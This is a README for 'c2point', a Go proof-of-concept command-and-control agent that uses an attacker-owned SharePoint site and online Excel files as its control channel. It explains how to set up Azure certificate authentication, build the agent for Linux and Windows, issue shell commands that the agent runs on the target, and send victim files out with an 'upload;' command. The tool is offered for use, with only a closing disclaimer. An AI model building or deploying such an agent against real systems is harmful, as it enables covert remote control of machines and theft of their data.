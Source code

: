 # c2point
c2point - Proof of Concept of a c2 structure in Go that uses Attacker-owned Azure Tenant (Sharepoint) as Command and Control.
This is a very simple project that aims to make the "agent" execute commands on target server from instructions written into an Online Excel file.

The agent will poll the attacker-owned SharePoint site, to retrieve the command into an Excel file and execute it.

Command result will be communicated to SharePoint via another excel file (Result)

## Workflow

![image](https://github.com/giovannicolonna/c2point/assets/10105061/f0f2fbac-4fe9-45fa-bccc-d02c33d9712d)


## Prerequisites
Global Admin on an Azure Tenant (if you have a lab, give it a try, set up your Developer Account in Microsoft to try O365 for free)


## Install Go: 
If you haven't already, download and install Go from the official website: https://golang.org/dl/. Follow the installation instructions for your operating system.

## Install dependencies: 
The program depends on several third-party packages, which can be installed using the following command:


```

go get github.com/koltyakov/gosip
go get github.com/koltyakov/gosip/api
go get github.com/koltyakov/gosip/auth/azurecert
go get github.com/tealeg/xlsx/v3

```



## Configure authentication: 

The program works with the support of a valid Azure Tenant with Sharepoint Online (Business subscription). According to Microsoft Documentation, set up your Azure environment to accept App-only access to an Azure app. You will need to register a new AAD Application and grant it to access SharePoint Online. 

Create a new Azure app and set up grants and certificate access as follows:

https://learn.microsoft.com/en-us/sharepoint/dev/solution-guidance/security-apponly-azuread

Replace the placeholder values in the private.json files

**Note that Cert Auth is the only Auth currently working with SharePoint online**

Here is an example of how to initialize private.json with the necessary fields for SharePoint Online authentication using Cert Auth as specified in GoSip Documentation (in this link you'll find script to generate self-signed cert): https://go.spflow.com/auth/strategies/azure-certificate-auth

```

{
	"siteUrl": "https://your-site.sharepoint.com/sites/your-site-name",
	"tenantId": "your-tenantid",
	"clientId": "your-clientid",
	"certPath": "cert.pfx",
	"certPass": "password"
}

```
Make sure to replace the placeholders (tenant-id, clientId, certPath and certPass) with the actual values for your SharePoint environment.
Don't forget to create a site in Sharepoint, you'll need the sitename into both private.json and source code.

**Create a 'config' folder in same directory of your .go file and put inside it the private.json and the .pfx cert file**


## Update file path
  Update the file paths into the source code (see commented lines)
  
## Create your c2 file
  Create a new excel file on your sharepoint site that will act as c2 panel, update accordingly the variables in the code by pointing to right excel file (default name is yourcommand.xlsx)
  
**Commands must be inserted in the very first cell 0,0**

## Compile and run the program:
  Open a terminal or command prompt and navigate to the directory containing the c2point.go file. Run the following commands to compile and execute the program:

```

go build c2point.go
./c2point

```

If you're on Windows, the compiled executable will be named c2point.exe. In that case, run the following command instead:

```
GOOS=windows GOARCH=amd64 go build -o ./bin/c2point.exe c2point.go 

c2point.exe
```
## Usage

The program will read the instructions from the 0,0 Cell in Excel file and execute them as command-line commands on your machine. On Windows, the commands will be executed using the cmd.exe shell, while on Unix-based systems they will be executed using the /bin/bash shell.

**Only the first cell must be filled with the command at this time (further improvements will be possible :) )**

Note that - for now - cert.pfx file and private.json must be in same folder of the executable.

Insert command 

```
exitc2

```

in online excel c2 file order to remotely stop the agent.

## Data Exfiltration

Insert command:

```

upload;/path/to/victim/file

```

in order to upload files from target sytems:

![image](https://github.com/giovannicolonna/c2point/assets/10105061/79105667-0b9a-450a-b929-cbb66ab9d02d)



## Output
Check your Sharepoint site. A file (default: output.xlsx) will contain the output of your command.

**Note that a 15 seconds delay has been hardcoded in order to let the online docs be aligned **

## Further improvements
Many, this is a sort of experiment, nothing more than a PoC:
1) Avoid double excel and try to have all the commands history in one file
2) modify code in order to not have .pfx and .json in same folder of executable (embedded Auth in GOSip throws errors)
3) Usage of Graph API (Go support is still too much in early stage as per May 2023)
4) Download of files from Attacker-Owned Sharepoint Site to target system

**Pull request as you like***

## Disclaimer 
This is a PoC, and the creator is not responsible for any illicit use of this. Please use it responsibly.


